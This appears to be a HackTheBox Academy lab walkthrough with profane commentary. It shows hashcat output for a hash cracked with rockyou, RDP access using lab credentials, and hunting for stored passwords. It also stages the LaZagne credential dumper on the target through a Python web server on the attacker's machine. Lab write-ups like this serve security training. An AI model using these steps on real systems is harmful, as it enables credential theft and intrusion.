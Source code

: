 ```c
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2131.3 kH/s (0.06ms) @ Accel:256 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2082816/14344385 (14.52%)
Rejected.........: 0/2082816 (0.00%)
Restore.Point....: 2081792/14344385 (14.51%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: YESENIA22 -> Warsteiner1
Hardware.Mon.#1..: Util: 35%

Started: Mon Oct 14 00:58:12 2024
Stopped: Mon Oct 14 00:58:15 2024

```


### Credential Hunting in Windows

17.  RDP to 10.129.202.99 (ACADEMY-PWATTACKS-WIN10CHUNTING) with user "Bob" and password "HTB_@cademy_stdnt!"
What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive) 

First we need to rdp to target:
```c
xfreerdp /v:10.129.202.99 /u:Bob /p:HTB_@cademy_stdnt!
```

Then we need to explore the folders of the User Bob for that. Easy


18. What is the GitLab access code Bob uses? (Format: Case-Sensitive) 

Same here, just look for folders

19.  What credentials does Bob use with WinSCP to connect to the file server? (Format: username:password, Case-Sensitive) 

For this FUCKED UP TASK, solving which I spent 1.5 hours, because FUCKING INTERNET is not working there on windows. I tried to transfer https://github.com/AlessandroZ/LaZagne tool to Windows using, scp, samba, but all of that was not successful. Eventually I set up python server on my kali in the directory where I already downloaded this LaZagne zip file: 
```c
python3 -m http.server 8080
```

Then on windows machine, go to browser
```c
http://KaliIP:8000
```

And you will see all the files located in the directory where you ran your python server

Okay we can unzip the file, BUT GUESS FUCKING WHAT? We also need to transfer python Windows installer to target as well!
So do the same with it as for LaZagne. Then when you have that python installed, you need to add it to the PATH:
Here was my case:
```c
[System.Environment]::SetEnvironmentVariable("Path", $env:Path + ";C:\Users\bob\AppData\Local\Programs\Python\Python313;C:\Users\bob\AppData\Local\Programs\Python\Python313\Scripts\", "Bob")
```
